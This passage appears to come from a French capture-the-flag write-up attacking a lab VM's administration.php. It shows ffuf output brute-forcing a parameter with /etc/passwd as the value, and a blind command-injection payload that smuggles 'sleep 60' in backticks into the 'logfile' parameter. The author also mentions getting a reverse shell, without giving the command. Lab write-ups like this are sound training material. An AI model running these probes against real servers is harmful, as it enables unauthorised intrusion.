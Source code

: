 ```html
You are not allowed to view : <br>Your activity has been logged
```

J'ai donc brute-forcé un nom de paramètre possible. Ma wordlist habituelle des paramètres les plus fréquents n'ayant rien trouvé je me suis tourné vers la liste de mots `raft` :

```bash
$ ffuf -u "http://192.168.56.72:8080/administration.php?FUZZ=/etc/passwd" -w fuzzdb/discovery/predictable-filepaths/filename-dirname-bruteforce/raft-large-words.txt -fs 65 -t 10

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.3.1
________________________________________________

 :: Method           : GET
 :: URL              : http://192.168.56.72:8080/administration.php?FUZZ=/etc/passwd
 :: Wordlist         : FUZZ: fuzzdb/discovery/predictable-filepaths/filename-dirname-bruteforce/raft-large-words.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 10
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
 :: Filter           : Response size: 65
________________________________________________

logfile                 [Status: 200, Size: 76, Words: 12, Lines: 3]
:: Progress: [119601/119601] :: Job [1/1] :: 379 req/sec :: Duration: [0:05:44] :: Errors: 0 ::
```

Tenter ensuite de brute-forcer la valeur de ce paramètre `logfile` n'a mené nul part en revanche Wapiti a remarqué une temporisation sur un payload particulier d'exécution de code.

Il y a un bug ici car une erreur réseau a été remontée mais pas la vulnérabilité. Une erreur que je corrigerais prochainement.

```
[¨] GET http://192.168.56.72:8080/administration.php?logfile=a%60sleep%2060%60 (0)
1 requests were skipped due to network issues
```

La vulnérabilité est avérée mais ne se fait qu'en aveugle. C'est toutefois suffisant pour rappatrier un outil et obtenir un reverse-shell avancé.

Voici à titre d'information le code du script `process.php` qui correspondait à l'API du chat :

```php
<?php

$function = $_POST["function"];
$log = [];

switch ($function) {
    case "getState":
        if (file_exists("chat.txt")) {
            $lines = file("chat.txt");
        }
        $log["state"] = count($lines);
        break;

    case "update":
        $state = $_POST["state"];
```